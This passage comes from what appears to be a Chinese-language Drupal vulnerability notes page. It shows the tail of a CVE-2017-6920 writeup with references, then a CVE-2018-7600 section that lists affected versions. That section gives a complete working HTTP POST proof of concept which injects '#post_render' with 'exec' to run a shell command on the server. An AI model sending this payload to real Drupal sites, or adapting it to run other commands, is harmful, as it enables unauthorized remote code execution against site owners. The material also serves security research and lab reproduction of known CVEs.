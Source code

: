 点击 Import 后可以看到漏洞触发成功，弹出 `phpinfo` 页面。

![](images/drupal-3.png)

### Ref

- [CVE-2017-6920 - cvedetails](https://www.cvedetails.com/cve/CVE-2017-6920/)
- [CVE-2017-6920:Drupal 远程代码执行漏洞分析及 POC 构造 - Seebug](https://paper.seebug.org/334/)

## CVE-2018-7600

7.58 之前的 Drupal、8.3.9 之前的 8.x、8.4.6 之前的 8.4.x 和 8.5.1 之前的 8.5.x 允许远程攻击者执行任意代码，因为一个问题会影响具有默认或通用模块配置的多个子系统。

- [x] Drupal < 7.58
- [x] Drupal 8.x < 8.3.9
- [x] Drupal 8.4.x < 8.4.6
- [x] Drupal 8.5.x < 8.5.1

### PoC

```http hl_lines="1 11"
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
